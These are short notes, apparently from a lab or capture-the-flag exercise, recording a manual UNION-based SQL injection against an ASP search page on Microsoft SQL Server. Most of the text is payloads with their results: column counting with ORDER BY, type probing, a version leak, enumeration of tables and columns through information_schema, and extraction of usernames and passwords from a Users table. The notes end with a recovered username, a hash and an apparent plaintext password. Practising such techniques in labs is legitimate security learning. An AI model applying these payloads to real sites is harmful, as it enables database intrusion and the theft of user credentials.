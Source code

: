 # MSSQL

/search.asp

```
Going with artist name.
' 500 error
'' ok

' ORDER BY 1-- ok
' ORDER BY 2-- ok
' ORDER BY 3-- nope.

' UNION SELECT NULL,NULL-- ok
' UNION SELECT 'a',NULL-- ok

' UNION SELECT 'a','a'-- nope
' UNION SELECT 'a','1'-- ok.
' UNION SELECT @@version,NULL-- ok.
```

Name: Microsoft SQL Server 2012 - 11.0.2100.60 (X64) Feb 10 2012 19:39:15 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.2 (Build 9200: ) (Hypervisor) - From the year:

https://portswigger.net/web-security/sql-injection/examining-the-database

SELECT \* FROM information\_schema.tables

TABLE\_CATALOG TABLE\_SCHEMA TABLE\_NAME TABLE\_TYPE

```
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```

SELECT \* FROM information\_schema.columns WHERE table\_name = 'Users'

TABLE\_CATALOG TABLE\_SCHEMA TABLE\_NAME COLUMN\_NAME DATA\_TYPE

```
' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'Users'--
```

```
' UNION SELECT pass,id FROM Users--
' UNION SELECT name,id FROM Users--
```

george - 7d9264f1c1c042b799ef08da95a782d4 - 123pass123
